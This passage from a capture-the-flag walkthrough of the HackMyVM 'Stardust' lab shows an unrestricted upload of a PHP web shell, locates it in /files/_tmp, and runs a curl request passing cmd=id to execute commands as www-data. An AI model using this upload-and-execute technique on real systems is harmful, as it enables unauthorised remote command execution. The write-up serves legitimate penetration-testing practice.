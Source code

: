 ```bash
{"_uploader_filename":[{"name":"622913c0af135c.84173822webshell.php","size":31,"type":"application\/x-php","url":"http:\/\/10.0.2.23\/ajax\/files\/622913c0afteUrl":"http:\/\/10.0.2.23\/ajax\/fileupload.php?_uploader_filenam=622913c0af135c.84173822webshell.php","deleteType":"DELETE","prefix":"622913c0af135c.841738","filesize":"31 o","id":"doc_uploader_filename1029752998"}]}' | jq .
{
  "_uploader_filename": [
    {
      "name": "622913c0af135c.84173822webshell.php",
      "size": 31,
      "type": "application/x-php",
      "url": "http://10.0.2.23/ajax/files/622913c0af135c.84173822webshell.php",
      "deleteUrl": "http://10.0.2.23/ajax/fileupload.php?_uploader_filenam=622913c0af135c.84173822webshell.php",
      "deleteType": "DELETE",
      "prefix": "622913c0af135c.84173822",
      "display": "webshell.php 31 o",
      "filesize": "31 o",
      "id": "doc_uploader_filename1029752998"
    }
  ]
}
```

If we send this request for a second time and attempt to access it from the /ajax/files parent directory, we will notice that the files child directory doesn't exist under the ajax parent directory. This means this temporary file must be in another directory on the server before it is been transferred to the /files/PHP directory.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-stardust/ajax-files-dir-404.png)

If we look in all the folders under the /files directory we will see that the file is stored under the /files/_tmp directory.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-stardust/uploaded-file.png)

We see that the file is stored with the lowercase PHP extension. We can test this web shell with a simple command like id.
```bash
┌──(pentester㉿kali)-[~/Stardust/Misc File]
└─$curl http://10.0.2.23/files/_tmp/6229105448218c.17957784webshell.php?cmd=id   
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

